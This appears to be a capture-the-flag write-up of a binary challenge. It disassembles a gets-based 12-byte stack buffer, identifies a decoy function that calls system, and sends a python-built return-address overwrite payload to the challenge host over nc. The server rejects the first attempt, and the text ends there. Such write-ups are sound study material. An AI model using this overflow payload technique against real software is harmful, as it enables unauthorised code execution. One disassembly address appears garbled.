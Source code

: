 # Pwn4 write-up

![](/assets/pwn4.png)

## Analysis

The binary reads an input into a **fixed size buffer** of size 12 bytes. This is done in the function `func1`

```nasm
.text:080484FD func1           proc near               ; CODE XREF: main+35p
.text:080484FD
.text:080484FD s               = byte ptr -0Ch
.text:080484FD
.text:080484FD                 push    ebp
.text:080484FE                 mov     ebp, esp
.text:08048500                 sub     esp, 18h
.text:08048503                 sub     esp, 0Ch
.text:08048506                 lea     eax, [ebp+s]
.text:408048509                 push    eax             ; s
.text:0804850A                 call    _gets
.text:0804850F                 add     esp, 10h
.text:08048512                 nop
.text:08048513                 leave
.text:08048514                 retn
.text:08048514 func1           endp
```

The stack layout looks like

```
-0000000C str             db 12 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The return address can be overwritten by overflowing the buffer. This gives control over `EIP`.

The binary contains a decoy function `flag_func` that seems to print the flag.

```nasm
.text:080484CB                 public flag_func
.text:080484CB flag_func       proc near
.text:080484CB                 push    ebp
.text:080484CC                 mov     ebp, esp
.text:080484CE                 sub     esp, 8
.text:080484D1                 sub     esp, 0Ch
.text:080484D4                 push    offset command  ; "/bin/cat flag2.txt"
.text:080484D9                 call    _system
.text:080484DE                 add     esp, 10h
.text:080484E1                 nop
.text:080484E2                 leave
.text:080484E3                 retn
.text:080484E3 flag_func       endp
```

We can redirect execution to `flag_func` by crafting the input as follows:

* 12 bytes for filling the buffer
* 4 bytes for overwriting the saved value of `ebp` on the stack
* \xCB\x84\x04\x08 \(the address of `flag_func` in little endian byte order\)

Testing with these values:

```bash
$ python -c "print 'A'*16+ '\xCB\x84\x04\x08'" > exploit  
$ nc web.ctf.tamu.edu 4324 < exploit 
I require an input: 
Did you really think it would be that easy? 
```

We do not get the flag.



